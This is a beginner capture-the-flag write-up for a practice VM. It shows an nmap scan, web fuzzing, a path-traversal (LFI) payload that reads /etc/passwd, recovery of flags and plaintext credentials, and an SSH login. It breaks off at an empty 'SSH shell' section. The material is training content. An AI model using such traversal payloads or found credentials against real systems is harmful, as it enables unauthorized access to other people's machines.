 
Documentation for the third box of the POC serie, a beginer box used to familarize with pentest tools and procedures.


# BOX POC 3

For this box, only an OVA for a virtual machine is provided, where I can see IP for beginning my pentest : 192.168.56.106, I put this in an $ip var.

---

## Summary

1. [Scan](#scan)
2. [Web Enumeration](#Web-Enumeration)
3. [SSH shell](#SSH-shell)

---

## Scan

We begin with a classic discovery of the network with this nmap command : ```nmap -sS -sV -sC -T4 $ip```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-18 10:37 CEST
Nmap scan report for 192.168.56.106
Host is up (0.00020s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 0e3ff44153b6271ab0a5c065b09d0b53 (RSA)
|   256 3891c5b542d638dc7245a7685e768099 (ECDSA)
|_  256 d7dc16365b235097ccfe2169b72a00d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Colors Change
MAC Address: 08:00:27:EF:0F:1C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

### Nmap scan summary

#### Port 22

Port 22 (SSH) is open and running OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Possible bruteforce / weak user access. Version might be vulnerable.

#### Port 80

Port 80 (HTTP) is open and running Apache httpd 2.4.38 ((Debian))
Web service. We can start by exploring it manually and then fuzzing/enumeration.

## Web enumeration

With a web enumeration ```ffuf -c -w '/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt' -u "http://$ip/FUZZ"```, I found a robot.txt, containing this :
```
Allow: /backup.zip
```

That mean that we can get this file, so I download it and unzip it with ```wget http://192.168.56.106/backup.zip && unzip backup.zip```to find the first flag inside ```index.php```.

```<?php #FLAG1{LA-VARIABLE-COLOR-EST-VULNERABLE-LFI} ?>```

The hint saying that the color variable is the vulnerability.

And the website is a basic "click to change the color" site, so when you click to a color, I seen in network inspector mode that the webservice send a request for changing the color.
As I can see too, the color is simply put in hexadecimal in the url like that : ```http://192.168.56.106/?color=%23cfc932```, so we can try to navigate through files like this :

```http://192.168.56.106/?color=../../../../../../etc/passwd``` 

And it worked :

<img width="696" height="841" alt="website passwd" src="https://github.com/user-attachments/assets/10a38baf-5b3c-4fad-9239-1b86eb9f7d1e" />

Here we can see two entries that can be interesting :

```
alix:x:1000:1000::/home/alix:/bin/bash
god:x:1001:1001::/home/god:/bin/bash
```

Thoses are probably usefull accounts and a potential target.
And in the "home" of www-data, the account used to manage webservice, ```http://192.168.56.106/?color=../../../../../var/www/html```, I can see a long character named file with the second flag inside :

```http://192.168.56.106/a74ae8e0d7cf015376f24c2fefdfe385193d62f0ac0184c3ddac7486b7fc116fa06c652f2602f8ba78bd89aade1ea4a242a12869e021d92a6d5e3c8f69f1bd0d/FLAG```

The flag saying that home directory is the key

```FLAG2{LE-REPERTOIRE-HOME-EST-LA-CLEE}```


So by navigating like that in the home, I can find the home of Alix :

```
drwxr-xr-x 3 alix alix  4096 Nov  1  2023 .
drwxr-xr-x 4 root root  4096 Jan 16  2022 ..
lrwxrwxrwx 1 root root     9 May 28  2022 .bash_history -> /dev/null
-rw-r--r-- 1 alix alix   125 Jan 16  2022 .hint
drwxr-xr-x 3 alix alix  4096 Jan 16  2022 .local
-rw-r--r-- 1 alix alix   807 Apr 18  2019 .profile
-rw-r--r-- 1 alix alix    31 Jan 16  2022 .secret-credentials
-rw-r--r-- 1 alix alix    39 Jan 16  2022 FLAG3.txt
-rwxrwxrwx 1 alix alix 18791 Jul 18 16:29 log
-rwxr-xr-x 1 alix alix    32 May 28  2022 script.sh
```

And here is the third flag ```FLAG3{LE-SCRIPT-EST-PAS-LA-PAR-HASARD}``` saying that the script is there for a reason, probably reffering to the script.sh.

Also the file .hint with this hint inside :
```
J'ai entendu dire qu'un utilisateur du systeme avait mis une tâche planifiée sur un script 

Peut être le "script.sh" ???
```

Meaning that a user may have added a scheduled task (crontab) on a script, maybe "script.sh".

And finaly the .secret-credentials with logins :

```
user: alix
password: Qwerty987
```

I try thoses logins with the ssh as we seen before that the 22 port is open, and bingo I'm logged as alix.


## SSH shell


